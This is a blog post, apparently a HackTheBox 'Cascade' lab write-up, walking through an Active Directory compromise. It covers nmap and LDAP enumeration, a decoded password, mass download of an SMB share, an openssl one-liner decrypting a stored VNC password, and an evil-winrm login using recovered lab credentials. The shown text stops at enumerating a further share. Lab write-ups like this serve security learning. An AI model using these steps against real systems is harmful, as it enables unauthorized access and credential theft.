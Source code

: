 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# https://www.geeksforgeeks.org/ldap-enumeration/
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](/assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
# https://github.com/billchaison/VNCDecrypt
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```
![](/assets/images/posts/2025-03-04-Cascade/802c943dd31ce351b2bb1497c97057b7_MD5.jpeg)

### evil-WinRM
```bash
evil-winrm -i 10.129.192.253 -u s.smith -p sT333ve2
```
![](assets/images/posts/2025-03-04-Cascade/c62bd9b245ee6cf85329f44dcb910f1b_MD5.jpeg)
#### In Evil-WinRM
```bash
# https://activedirectorypro.com/get-aduser-examples/ 참고해서 해보기
net user s.smith

# 
dir C:\ -recurse -filter MapAuditDrive.vbs

# smb reenum
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --shares
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --spider Audit$ --regex .
```
